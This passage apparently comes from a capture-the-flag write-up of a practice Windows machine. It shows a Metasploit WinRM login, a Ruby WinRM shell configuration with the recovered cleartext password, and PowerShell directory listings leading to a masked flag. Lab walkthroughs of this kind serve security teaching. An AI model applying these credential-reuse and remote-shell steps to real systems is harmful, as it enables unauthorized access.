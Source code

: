 msf5 auxiliary(scanner/winrm/winrm_login) > run

[+] 10.10.10.149:5985 - Login Successful: SUPPORTDESK\Chase:Q4)sJu\Y8qz*A3?d
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endhighlight %}

# user.txt

Okay... So the same `Chase` user have access to both the `smb` and `WinRM` service. To establish a shell, I used  `Alamot`'s [winrm_shell.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb) with the following configuration settings:
{% highlight ruby %}
require 'winrm'
conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.149:5985/wsman',
  transport: :ssl,
  user: 'SUPPORTDESK\Chase',
  password: 'Q4)sJu\Y8qz*A3?d',
  :no_ssl_peer_verification => true
)
{% endhighlight %}

And now we execute the `WinRM` shell...

{% highlight bash %}
$ ruby winrm_shell.rb
PS supportdesk\chase@SUPPORTDESK Documents> cd ..
PS supportdesk\chase@SUPPORTDESK Chase> cd Desktop
PS supportdesk\chase@SUPPORTDESK Desktop> dir
    Directory: C:\Users\Chase\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-a----        4/22/2019   9:07 AM             32 user.txt
                                                                                                                   
PS supportdesk\chase@SUPPORTDESK Desktop> more user.txt
a127XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# root.txt (1)

When I first did this machine, I found the `SHA-256` hash of the Administrator's password which I was able to somehow crack it using an online website.

From what we know, there was a `IIS` web server running on port 80 so I checked out `C:\inetpub\wwwroot`. 
{% highlight bash %}
PS supportdesk\chase@SUPPORTDESK inetpub> dir
 Volume in drive C has no label.
 Volume Serial Number is 78E3-E62D

 Directory of C:\inetpub\wwwroot

04/21/2019  05:42 PM    <DIR>          .
04/21/2019  05:42 PM    <DIR>          ..
04/21/2019  05:41 PM    <DIR>          attachments
04/21/2019  05:41 PM    <DIR>          css
04/21/2019  11:51 AM             1,240 errorpage.php
04/21/2019  05:41 PM    <DIR>          images
04/21/2019  11:33 AM               279 index.php
04/22/2019  08:38 AM             3,034 issues.php
04/21/2019  05:41 PM    <DIR>          js
04/22/2019  06:48 AM             2,657 login.php
               4 File(s)          7,210 bytes